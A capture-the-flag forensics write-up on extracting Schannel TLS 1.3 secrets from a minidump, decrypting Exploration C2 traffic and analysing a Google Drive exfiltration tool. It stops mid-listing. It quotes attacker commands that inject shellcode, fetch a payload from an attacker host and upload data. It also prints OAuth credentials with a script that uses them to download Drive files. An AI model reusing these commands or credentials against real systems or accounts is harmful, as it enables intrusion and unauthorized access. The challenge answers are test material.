










 <font size='10'>Remnant</font>

31<sup>th</sup> Jan 2026

Prepared By: bquanman

Challenge Author(s): bquanman

Difficulty: <font color=red>Hard</font>

Classification: Official

### Description:

We intercepted a dense web of courier transit-logs flowing through the capital's hidden service-throats. Sift through this captured chain of custody to uncover the counterfeit vows buried within the routine traffic. Retrace every forged witness-mark and stamped transfer to expose the architect behind the breach.

### Objective

The primary objective of this challenge is to decrypt TLS 1.2 and TLS 1.3 traffic, replay RDP sessions, and analyze C2 communications to understand the attacker's actions. The final goal is to utilize the Google Drive API to retrieve exfiltrated files.


## Questions

The answers to the questions are out-of-order:

- Q1: What is the password for the compromised account the attacker used to pivot into `JUMP01`?
- Q2: What is the exact name of the WMI object created for persistence?
- Q3: What is the MD5 hash of the shellcode that was injected into a process?
- Q4: What is the Unix timestamp when sensitive data from `JUMP01` was successfully uploaded to the attacker’s storage?
- Q5: What is the filename of the document stolen from the CFO’s computer found in the attacker’s storage? (example: Financial-Report-2025.pdf)

## Enumeration

This challenge provides us with two files:

- capture.pcap: Contains network traffic captured during the security incident
- so.dmp: A minidump of the suspicious process

Preliminary analysis of the pcap file reveals that the two most active conversations are with IP addresses 172.168.200.57 and 96.237.253.177



Where:

- 172.168.200.57: Communicates on port 3389 corresponding to RDP, using TLS 1.2 encryption
- 96.237.253.177: Communicates on port 8443 using TLS 1.3 encryption

Since the majority of network traffic is encrypted, we'll shift our focus to analyzing the process minidump file so.dmp

## Process Minidump Analysis

We'll use WinDbg to gain an overview of the file

```
STACK_COMMAND: ~0s; .ecxr ; kb
SYMBOL_NAME:  so+10c81
MODULE_NAME: so
IMAGE_NAME:  so.exe
FAILURE_BUCKET_ID:  BREAKPOINT_80000003_so.exe!Unknown
OS_VERSION:  10.0.26100.1
BUILDLAB_STR:  ge_release
OSPLATFORM_TYPE:  x64
OSNAME:  Windows 10
IMAGE_VERSION:  1.0.0.0
```

The file was dumped from the so.exe process running on Windows 10 Version 26100 (which is actually Windows 11)

Displaying information about the Process Environment Block:

```bash
0:000> !peb
PEB at 0000000000227000
....................
    CurrentDirectory:  'C:\WINDOWS\system32\'
    WindowTitle:  'C:\Windows\Temp\so.exe'
    ImageFile:    'C:\Windows\Temp\so.exe'
    CommandLine:  '"C:\Windows\Temp\so.exe" update.microsoft-windows.com 8443 https'
    DllPath:      '< Name not readable >'
    Environment:  0000000000562740
        ALLUSERSPROFILE=C:\ProgramData
        APPDATA=C:\WINDOWS\system32\config\systemprofile\AppData\Roaming
        ChocolateyInstall=C:\ProgramData\chocolatey
        CommonProgramFiles=C:\Program Files\Common Files
        CommonProgramFiles(x86)=C:\Program Files (x86)\Common Files
        CommonProgramW6432=C:\Program Files\Common Files
        COMPUTERNAME=JUMP01
.....................
```

We obtain the computer name JUMP01 and the process command line appears to be establishing a connection to a C2 server: `"C:\Windows\Temp\so.exe" update.microsoft-windows.com 8443 https`

Using the `lm` command to list modules loaded into the process and view detailed information about the `so` module

```bash
0:000> lmDvmso
Browse full module list
start             end                 module name
00007ff7`bc4d0000 00007ff7`bc559000   so       C (export symbols)       so.exe
    Loaded symbol image file: so.exe
    Image path: C:\Windows\Temp\so.exe
    Image name: so.exe
    Browse all global symbols  functions  data  Symbol Reload
    Timestamp:        Wed Oct 15 19:32:45 2025 (68EF946D)
    CheckSum:         00000000
    ImageSize:        00089000
    Mapping Form:     Loaded
    File version:     1.0.0.0
    Product version:  1.0.0.0
    File flags:       0 (Mask 3F)
    File OS:          4 Unknown Win32
    File type:        1.0 App
    File date:        00000000.00000000
    Translations:     0409.04e4
    Information from resource tables:
        CompanyName:      Your Company Name
        ProductName:      ProjectX
        InternalName:     ProjectX
        OriginalFilename: ProjectX.exe
        ProductVersion:   1.0.0
        FileVersion:      1.0.0.0
        FileDescription:  ProjectX Executable
```

Dumping so.exe for executable analysis

```
.writemem C:\Windows\Temp\so_dump.exe 00007ff7`bc4d0000 L?89000
```

The strings in the file and the description `ProjectX Executable` lead us to the repository https://github.com/maxDcb/C2Implant, revealing that so.exe is actually an implant of **Exploration C2**

## Decrypting Exploration C2 Traffic (TLS 1.3)

Based on the program parameters `update.microsoft-windows.com 8443 https`, it establishes a connection to the ExplorationC2 server at update.microsoft-windows.com on port 8443 using HTTPS. The TLS traffic is encrypted using Schannel with the server's certificate and private key. Furthermore, the encryption visible from the `Server Hello` packet shows it uses TLS 1.3 with Cipher Suite: TLS_AES_256_GCM_SHA384, meaning that even if we had the private key, it would not be sufficient to decrypt the traffic.

To decrypt TLS 1.3 traffic, we need the NSS Key Log Format or SSLKEYLOGFILE which records the secrets. These key logs have the following format: 

```
CLIENT_HANDSHAKE_TRAFFIC_SECRET <CLIENT_RANDOM> <SECRET>
SERVER_HANDSHAKE_TRAFFIC_SECRET <CLIENT_RANDOM> <SECRET>
EXPORTER_SECRET <CLIENT_RANDOM> <SECRET>
CLIENT_TRAFFIC_SECRET <CLIENT_RANDOM> <SECRET>
SERVER_TRAFFIC_SECRET <CLIENT_RANDOM> <SECRET>
```

Where the HANDSHAKE_TRAFFIC_SECRET pair uses session keys to encrypt handshake messages, and the TRAFFIC_SECRET pair encrypts application data. The HANDSHAKE_TRAFFIC_SECRET is only used during the handshake phase, so it expires and is released very early, while TRAFFIC_SECRET can potentially still be extracted from memory if the session is ongoing.

### Extracting TLS 1.3 Secrets from Memory

#### Method 1: BDDD -> 3lss -> RUUU -> YKSM -> secret

Based on [this research](https://b.poc.fun/decrypting-schannel-tls-part-1/#ref1), we will scan and traverse linked structures in schannel memory to extract TLS secrets following the chain from BDDD → 3lss → RUUU → YKSM

```c
var get_secret_from_BDDD = function(struct_BDDD){
	var struct_3lss = struct_BDDD.add(0x10).readPointer();
	var struct_RUUU = struct_3lss.add(0x20).readPointer();
	var struct_YKSM = struct_RUUU.add(0x10).readPointer();
	var secret_ptr = struct_YKSM.add(0x18).readPointer();
	return secret_ptr.readByteArray(48);
}
```

This must be performed in virtual memory, so we use WinDbg for manual searching:

* Search for the BDDD string in the entire dump

```
0:000> s -a 0 L?7fffffffffffffff "BDDD"
00000000`0061d894  42 44 44 44 00 00 00 00-01 00 00 00 00 0e 5f 00  BDDD.........._.
00000000`0061d984  42 44 44 44 00 00 00 00-01 00 00 00 90 46 63 00  BDDD.........Fc.
00000000`0061d9b4  42 44 44 44 00 00 00 00-01 00 00 00 50 bf 19 01  BDDD........P...
00000000`0061d9e4  42 44 44 44 00 00 00 00-01 00 00 00 10 45 63 00  BDDD.........Ec.
...............
```

Choose any address to continue, here I select 00000000`0061d984

* Display 30 bytes after BDDD
```
0:000> db 00000000`0061d984 L30
00000000`0061d984  42 44 44 44 00 00 00 00-01 00 00 00 90 46 63 00  BDDD.........Fc.
00000000`0061d994  00 00 00 00 90 68 5d 00-00 00 00 00 00 00 00 00  .....h].........
00000000`0061d9a4  00 00 00 00 34 4d c7 74-00 4b 00 90 20 00 00 00  ....4M.t.K.. ...
```

`+0x10 90 46 63 00 00 00 00 00`: pointer to 3lss = 0x634690 (since the pointer points to the beginning of allocation, the structure start address should be calculated from 0x0061d980)

Jump to the 3lss tag address 0x634690 and display the following bytes

```
0:000> db 0x634690 L30
00000000`00634690  70 00 00 00 33 6c 73 73-04 03 00 00 00 00 00 00  p...3lss........
00000000`006346a0  30 77 91 a1 fb 7f 00 00-00 00 00 00 00 00 00 00  0w..............
00000000`006346b0  90 cc 19 01 00 00 00 00-00 00 00 00 00 00 00 00  ................

+0x20   90 CC 19 01 00 00 00 00:  Pointer to RUUU = 0x119CC90
```

Continue jumping to address 0x000000000119CC90

```
0:000> db 0x000000000119CC90 L40
00000000`0119cc90  be 02 00 00 52 55 55 55-10 2a 5f 00 00 00 00 00  ....RUUU.*_.....
00000000`0119cca0  b0 cc 19 01 00 00 00 00-90 cc 19 01 00 00 00 00  ................
00000000`0119ccb0  80 02 00 00 59 4b 53 4d-07 00 06 00 80 01 00 00  ....YKSM........
00000000`0119ccc0  30 00 00 00 00 00 00 00-d0 97 60 00 00 00 00 00  0.........`.....
```

```
+0x10 90 cc 19 01 00 00 00 00: Pointer to YKSM = 0x119cc90
+0x28 d0 97 60 00 00 00 00 00: Pointer to secret = 0x6097d0
```

Jump to virtual address 0x6097d0 to retrieve the secret

```
0:000> db 0x6097d0
00000000`006097d0  b7 58 58 2b 5f 56 45 d6-df 58 ea c9 6d 65 77 f2  .XX+_VE..X..mew.
00000000`006097e0  c3 b9 62 d2 d0 d0 5a bb-bc 25 f0 05 46 50 fe 09  ..b...Z..%..FP..
00000000`006097f0  99 9f 0d ea 2e a7 33 0f-90 81 eb 02 4e ce 71 e4  ......3.....N.q.
```

We successfully retrieved a secret value b758582b5f5645d6df58eac96d6577f2c3b962d2d0d05abbbc25f0054650fe09999f0dea2ea7330f9081eb024ece71e4 using this method

#### Method 2: 3lss -> KDBM -> secret

According to a small discovery I made, when the program executes, bcrypt.dll/bcryptprimitives.dll is loaded, which is the library containing the actual implementation of cryptographic algorithms. Within this library, the _BCRYPT_KEY_DATA_BLOB_HEADER structure is used to store secrets, and when dumping the memory of the lsass process or the main program process, we have the opportunity to find these structures containing TLS session keys.

The _BCRYPT_KEY_DATA_BLOB_HEADER structure according to the source code here https://github.com/microsoft/referencesource/blob/main/System.Core/System/Security/Cryptography/BCryptNative.cs
```cs
        private struct BCRYPT_KEY_DATA_BLOB_HEADER
        {
            public uint dwMagic;
            public uint dwVersion;
            public uint cbKeyData;

            public const uint BCRYPT_KEY_DATA_BLOB_MAGIC = 0x4d42444b; ///Key Data Blob Magic (KDBM)
            public const uint BCRYPT_KEY_DATA_BLOB_VERSION1 = 0x1;
        }
```

Searching for the KDBM string, we see it is also located within a structure with the 3lss magic byte. The data can be parsed as follows:



Thus, by simply searching for the 3lss and KDBM magic bytes in raw format as shown above, we can enumerate all secrets in memory

#### Grabbing TLS Secrets

Using the two methods above, we can extract the secrets from the process minidump at the following addresses: ([tls1.3_extract.py](assets/tls1.3_extract.py))

```
=====method 1=====
0x24ee34: b758582b5f5645d6df58eac96d6577f2c3b962d2d0d05abbbc25f0054650fe09999f0dea2ea7330f9081eb024ece71e4
0x24e7b4: 87722c52e879a0f85e8c9a2cc82d298fcebb515c96e454dd17157999c0e2e681869a27766db07552c54151adf4ae81b8
0x24eff4: 2d41c3e7a9cb7b2ff2f70b644bff1aeeb0baecab7af72d96c58a27d0ba99790ebaa82a2e65f2eafc1bb02a3ee600848e
=====method 2=====
0x1d2b62: b758582b5f5645d6df58eac96d6577f2c3b962d2d0d05abbbc25f0054650fe09999f0dea2ea7330f9081eb024ece71e4
0x1d2c12: 87722c52e879a0f85e8c9a2cc82d298fcebb515c96e454dd17157999c0e2e681869a27766db07552c54151adf4ae81b8
0x1d314a: 2d41c3e7a9cb7b2ff2f70b644bff1aeeb0baecab7af72d96c58a27d0ba99790ebaa82a2e65f2eafc1bb02a3ee600848e
0x20f8ca: b758582b5f5645d6df58eac96d6577f2c3b962d2d0d05abbbc25f0054650fe09999f0dea2ea7330f9081eb024ece71e4
0x20f97a: 87722c52e879a0f85e8c9a2cc82d298fcebb515c96e454dd17157999c0e2e681869a27766db07552c54151adf4ae81b8
0x20feb2: 2d41c3e7a9cb7b2ff2f70b644bff1aeeb0baecab7af72d96c58a27d0ba99790ebaa82a2e65f2eafc1bb02a3ee600848e
```

After removing duplicates, we have 3 secrets: b758582b5f5645d6df58eac96d6577f2c3b962d2d0d05abbbc25f0054650fe09999f0dea2ea7330f9081eb024ece71e4, 87722c52e879a0f85e8c9a2cc82d298fcebb515c96e454dd17157999c0e2e681869a27766db07552c54151adf4ae81b8, 2d41c3e7a9cb7b2ff2f70b644bff1aeeb0baecab7af72d96c58a27d0ba99790ebaa82a2e65f2eafc1bb02a3ee600848e

These 3 secrets correspond to EXPORTER_SECRET, CLIENT_TRAFFIC_SECRET_0, and SERVER_TRAFFIC_SECRET_0. However, we're not certain which secret corresponds to which label. Therefore, we must try all combinations of application traffic secrets to decrypt the traffic (EXPORTER_SECRET is not required for decryption). 

The CLIENT_RANDOM value can be obtained from the Client Hello packet in the pcap, which is 0a6d7b6bbd25bcce8c4b6d60bb6c6fb237e6956d4f0bdbb65d03cf14de312c0d



Reconstruct 

```
CLIENT_TRAFFIC_SECRET <CLIENT_RANDOM> <SECRET>
SERVER_TRAFFIC_SECRET <CLIENT_RANDOM> <SECRET>
```
After reconstructing and trying all pairs of application traffic secrets, the secret pair that successfully decrypts the pcap is:

```
CLIENT_TRAFFIC_SECRET_0 0A6D7B6BBD25BCCE8C4B6D60BB6C6FB237E6956D4F0BDBB65D03CF14DE312C0D 87722C52E879A0F85E8C9A2CC82D298FCEBB515C96E454DD17157999C0E2E681869A27766DB07552C54151ADF4AE81B8
SERVER_TRAFFIC_SECRET_0 0A6D7B6BBD25BCCE8C4B6D60BB6C6FB237E6956D4F0BDBB65D03CF14DE312C0D B758582B5F5645D6DF58EAC96D6577F2C3B962D2D0D05ABBBC25F0054650FE09999F0DEA2EA7330F9081EB024ECE71E4
```

The pcap interface and TLS stream content after successful decryption



### Analyzing and Decrypting Exploration C2

From the ExplorationC2 source code, we observe that the implant sends information back to the listener by POSTing aspx files to the server, with content encrypted using XOR with the key `dfsdgferhzdzxczevre5595485sdg` and base64 encoding



Therefore, to decrypt we simply need to reverse the process: decode base64 and XOR with the same key `dfsdgferhzdzxczevre5595485sdg`

One of the decrypted commands sent from the listener reveals the behavior of injecting shellcode into a legitimate process:

```
[{"BH":"utUa5ERcnzZ3aMTinTqHMQwIxcezXaw4","SS":[{"CM":"-r /clt/klg.bin 7628 ","DA":"6JMTBACTEwQASI1JVIKlkLyLYDw71NyE/NYI3oTmJxGNNRyzRlIApBkAAAAAJf4YOLUFEdcpJk8gKX8LOkVmzhxYmsX9UhAOJoZhGZSOpCeaFtYjltQECkUxr2IvQJiVuWuo[...REDACTED...]JK8FbwwAAAAAAAAAAAA==","IF":"L2NsdC9rbGcuYmlu","INS":"inject","PI":7628,"UID":"3Sm8jKjt"}]}]
```

The JSON structure shows that the inject module is used to load the klg.bin shellcode from the server into pid 7628, with the shellcode content in the DA field. By decoding the base64 DA field, we can obtain the complete shellcode.

#### A3: `f77d42ed3d0bd6888cb85d742ba8ef19`

Next, the attacker downloads the CloudSyncer.7z file from update.microsoft-windows.com:8888 and extracts it with the password `owersyncer`. They then run the newly extracted CloudSyncer.exe program to upload the error.dmp file with compression option, apparently to exfiltrate data to the C2.

```json
[{"BH":"utUa5ERcnzZ3aMTinTqHMQwIxcezXaw4","SS":[{"CM":"curl update.microsoft-windows.com:8888/CloudSyncer.7z -o \"C:\\Windows\\Temp\\CloudSyncer.7z\"","INS":"shell","UID":"WpSkEMfZ"}]}]

[{"BH":"utUa5ERcnzZ3aMTinTqHMQwIxcezXaw4","SS":[{"CM":"&\"C:\\Program Files\\7-Zip\\7z.exe\" x \"C:\\Windows\\Temp\\CloudSyncer.7z\" -powersyncer -o\"C:\\Windows\\Temp\" -y | write-output ","INS":"powershell","UID":"XWyv0cWV"}]}]

[{"BH":"utUa5ERcnzZ3aMTinTqHMQwIxcezXaw4","SS":[{"CM":"&\"C:\\Windows\\Temp\\CloudSyncer.exe\" upload \"C:\\Windows\\Temp\\error.dmp\" --compress | write-output ","INS":"powershell","UID":"ez1esjSY"}]}]
```

Extracting CloudSyncer.7z from HTTP traffic in the pcap and extracting it with the password `owersyncer` gives us CloudSyncer.exe for malware analysis.

### Analyzing CloudSyncer Malware

The program is a `SingleFile` .NET executable. As such, we cannot directly use `dnSpy` or similar tools to analyze it. We'd first have to extract it using a tool like [SingleFileExtractor](https://github.com/Droppers/SingleFileExtractor).



Main functionality of the program:
- Used to upload and download files using the Google Drive API
- Has 2 sets of OAuth refresh tokens: one set for upload and one set for download; the program automatically obtains access tokens and calls the Drive API
- Upload mode: accepts file or folder paths, performs compression with password ``6\1p0`BeVm]7/S.`` if using the --compress option
- Uploaded filenames are prefixed with the computer name: COMPUTERNAME_filename to distinguish the source machine

Clearly, this is a tool used for data exfiltration and abusing Google Drive as C2. The exposure of client_id, client_secret, and refresh_token in the source code gives us the opportunity to use these very components to explore the attacker's Drive storage.

Reference script to list and download files from Drive: [download_google_drive.py](assets/download_google_drive.py)
```python
import requests
import os
from datetime import datetime

client_id = "549473216521-ro5rolkbfjlc6f2dai5t9tlncjcjkvg2.apps.googleusercontent.com"
client_secret = "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"
refresh_token = "1//04TXgu3wlSJilCgYIARAAGAQSNwF-L9IrKCDGVbcHoQk6_h_LcogPB0qRZgIKTXnv2JVTssCG1q9S5sCGXhUjXN_r9doihxUIig0"

def get_token():
    r = requests.post("https://oauth2.googleapis.com/token", data={
        'client_id': client_id, 'client_secret': client_secret,
        'refresh_token': refresh_token, 'grant_type': 'refresh_token'
    })
    return r.json().get('access_token') if r.status_code == 200 else None

def list_files(token):
    files, params = [], {'fields': 'files(id,name,mimeType,size,createdTime)', 'pageSize': 1000}
    headers = {'Authorization': f'Bearer {token}'}
    while True:
        r = requests.get("https://www.googleapis.com/drive/v3/files", headers=headers, params=params)
        if r.status_code != 200: break
        data = r.json()
        files.extend(data.get('files', []))
        if not data.get('nextPageToken'): break
        params['pageToken'] = data['nextPageToken']
    return files

def download(file_id, name, token, out_dir):
    print(f"\n[*] {name}")
    r = requests.get(f"https://www.googleapis.com/drive/v3/files/{file_id}?alt=media",
                     headers={'Authorization': f'Bearer {token}'}, stream=True)
    if r.status_code != 200:
        print(f"[!] Error: {r.status_code}")
        return False
    
    path = os.path.join(out_dir, "".join(c for c in name if c.isalnum() or c in (' ', '.', '_', '-')).rstrip())
    with open(path, 'wb') as f:
        for chunk in r.iter_content(8192):
            if chunk: f.write(chunk)
    print(f"[+] Saved: {path}")
    return True

def main():
    out_dir = os.path.join(os.getcwd(), "downloads")
    os.makedirs(out_dir, exist_ok=True)
    
    token = get_token()
    if not token:
        print("Failed to get token")
        return
    
    while True:
        print("\n1. Download all\n2. Download by ID\n3. List files\n4. Exit")
        choice = input("\n> ").strip()
        
        if choice == '1':
            files = [f for f in list_files(token) if not f.get('mimeType','').startswith('application/vnd.google-apps')]
            print(f"\nDownloadable: {len(files)}")
            success = sum(download(f['id'], f['name'], token, out_dir) for f in files)
            print(f"\n[+] Success: {success}/{len(files)}")
        
        elif choice == '2':
            fid = input("File ID: ").strip()
            name = input("Filename (empty=auto): ").strip()
            if not name:
                r = requests.get(f"https://www.googleapis.com/drive/v3/files/{fid}",
                               headers={'Authorization': f'Bearer {token}'})
                name = r.json().get('name', 'file') if r.status_code == 200 else 'file'
            download(fid, name, token, out_dir)
        
        elif choice == '3':
            for i, f in enumerate(list_files(token), 1):
                created = f.get('createdTime', '')
                timestamp = int(datetime.fromisoformat(created.replace('Z', '+00:00')).timestamp()) if created else 0
                print(f"\n[{i}] {f.get('name')}")
                print(f"    ID: {f.get('id')}")
                print(f"    Size: {f.get('size', 'N/A')}")
                print(f"    Created: {created} ({timestamp})")
        
        elif choice == '4':
            break

if __name__ == "__main__":
    main()
```

Output:

```
1. Download all
2. Download by ID
3. List files
4. Exit

> 3

[1] VCS-EXEC-CFO-MRB-002_VCS-Internal-Report.pdf.zip
    ID: 1WI7SyhHWDzyDZG6aDtBRoSDgNwCx8IB3
    Size: 9432
    Created: 2026-02-03T17:21:26.709Z (1770139286)

[2] JUMP01_error.dmp.zip
    ID: 1B0ulormL5L3P0s-3MjXi-1VRw38eQEoU
    Size: 126211706
    Created: 2026-01-31T08:46:38.613Z (1769849198)

[3] PsExec64.exe
    ID: 1XLGmz_eX03nZXSO0WS0gsbkBjpQrRiMK
    Size: 514472
    Created: 2026-01-20T09:59:32.531Z (1768903172)

[4] DESKTOP-A9F3K2_Telegram Desktop.zip
    ID: 1VfnQS25zcchqfZrROm-fyg5aGTtSrcle
    Size: 15311979
    Created: 2026-01-20T09:06:01.532Z (1768899961)

[5] hhdc-db-02_database.zip
    ID: 1C4AljZXeOluwWkrdKBwFLSmiREISW7W-
    Size: 571465
